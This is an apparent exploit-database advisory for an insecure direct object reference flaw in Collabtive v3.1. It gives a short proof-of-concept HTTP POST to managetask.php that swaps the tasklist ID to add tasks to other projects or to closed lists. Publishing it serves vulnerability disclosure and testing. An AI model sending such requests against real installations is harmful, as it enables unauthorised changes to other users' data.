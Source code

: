 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add task in the tasklist that is closed or belongs to other project(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /managetask.php?action=add&id=1 HTTP/1.1
...

&title=T1&=&=&=&=&=&=&=&=&=&=&=&=&text=TTTTT&start=05.01.2024&end=05.01.2024&assigned[]=2&tasklist=1(CHANGE HERE)&=&=
```